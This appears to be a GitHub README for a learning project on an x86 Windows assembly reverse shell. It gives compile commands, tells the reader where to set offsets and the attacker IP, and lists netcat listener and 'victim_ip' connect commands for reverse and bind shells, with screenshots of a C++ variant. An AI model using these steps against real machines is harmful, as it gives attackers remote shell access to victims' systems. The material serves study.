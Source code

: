 # Reverse_shell learning

## :one: Reverse Shell x86 :fr:

Warning, this reverse shell is not portable, just for show example how does a reverse shell in x86 in assembly code, this method is really old

- Ligne 78 v2 : LoadLibraryA replace it by your own offset
- Ligne 79 v2 : GetProcAddress replace it by your own offset
- Ligne 193 v2: SOKADDR_IN set you own port and IP address

### Architecture

Win32 plateform

- XP 
- Win 7
- Win 10 - Windows Defender Detects it's bad for himself

### Compilation 

```
$nasm -f win32 reverse_shell.s -o reverse_shell.o
$ld -m i386 reverse_shell.o -o reverse_shell32.exe

```
### Show Hex

```
$nasm -f bin reverse_shell.s -o reverse_shell_bin.o
$cat reverse_shell_bin | hexdump -C

```
## Exploit

### Reverse Tcp

```
$netcat -v -l -p 4444

```

### Reverse Bind Tcp

```
$netcat -v victim_ip 4444

```

### Reverse Tcp With CPP 

Write on an ide really basic devcpp on windows

- Inlude at your projet : MinGw-x86-64\libws2_32.so

<img src="https://zupimages.net/up/18/52/3s63.png">
<img src="https://zupimages.net/up/18/52/y6mk.png">

### Win 10 pro reverse cpp

<img src="https://zupimages.net/up/18/52/ztqp.png">
<img src="https://zupimages.net/up/18/52/dt6r.png">
<img src="https://zupimages.net/up/18/52/a96f.png">


